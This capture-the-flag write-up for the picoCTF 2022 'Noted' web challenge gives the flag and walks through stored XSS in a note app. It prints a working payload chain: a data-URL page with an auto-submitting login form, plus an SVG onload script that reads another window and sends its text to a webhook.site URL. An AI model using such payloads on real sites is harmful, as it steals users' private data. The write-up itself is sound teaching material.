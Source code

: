   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows users to create an account, login, and then (upon login) create notes. The notes seem to be visible only to the logged in user and not accessible through some URL. Furthermore, in report.js, the following lines of code suggest that the flag is stored in a note of the puppeteer bot.

```js

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');
  ```
  

We can start by looking through similar past web exploit challenges and writeups that involved note taking apps. After searching online for these, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Given these results, XSS seems to be the way to go, but we need to first see if the website is vulnerable to it. To do so, we first create an account and enter in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

This confirms that the website is vulnerable to XSS. Now we need a payload that the puppeteer bot will run and yield the note with the flag. Our initial plan was to fetch the notes of the bot by 

```
1) using the `fetch()` JS command 
2) sending the response of 1) to our webhook which would yield the flag
```

However, this did not work. After a lot of Googling, this is a common setback in many XSS challenges and is caused by the CORS policy being disabled. At this point, we tried searching up CORS Bypass and came up with following: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass) and [Medium](https://medium.com/the-crazy-coder/a-comprehensive-understanding-of-cors-all-frontend-developers-better-to-have-3ae46d35f19e). After reaching a dead-end with the CORS bypass, we switched tracks by looking back at [TDXSS] and [XSS On Other Domain] and saw that we can use an iframe/window to have the bot's notes open while we login to our account to do XSS in parallel. It helps us that we automatically go to the user's notes after logging in. 

So here, we wondered if it would be possible to somehow access the window we had opened before logging in? After some testing and searching up how window onjects work, it turned out YES! We can access that window that we opened and keep it open as we login. Then the XSS can access the previously opened page's content because of same-origin policy. 

So now putting these steps together, 
```
1) We first open a window of the bot's notes 
2) We can login with our temporary user 
3) Do XSS and gain access to our temporary user's notes 
4) Open our previously opened window of the bot's notes which we can then send to our webhook as a GET request, where we can get the flag.
``` 
Now that we have the plan, it's time to implement this and put it together. We can start off with the code we're going to inject in the Report function. To login as our user, we can use the <form> and <input> tags, with them put together as

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
```

Then we want want to open up a window, with the bots notes and submit the form. To open up a window we can use `window.open()`, and to submit the form we can use ``setTimeout(`WebsiteForm.submit(), 1000`)``. Putting this together, we get 

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

We also have to put this with data:text/html, so we actually get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

Now we need to create the XSS we will use in our notes of the temporary user. So searching this up [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting), we can abuse some html tag. I chose to abuse the <svg tag, but you can use anything. Now, we want to open the window that has the bot's notes, and somehow send it to our webhook. After thinking about it, I realized that I can put it in the request itself, by putting the url of the webhook, and concatenating it with the note text. Putting this together we get,

```html
<svg onload="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

Now we have our full payload, which *might* work. Let's try it out!

Putting our payload in our temporary user's notes: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.02.11%20PM.png)</p>

Putting our payload in the Report endpoint: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.04.06%20PM.png)</p>
  
Webhook Request: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.05.36%20PM.png)

Url Decoding: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.07.43%20PM.png)
 
That's our flag! That's all for the writeup for Noted.
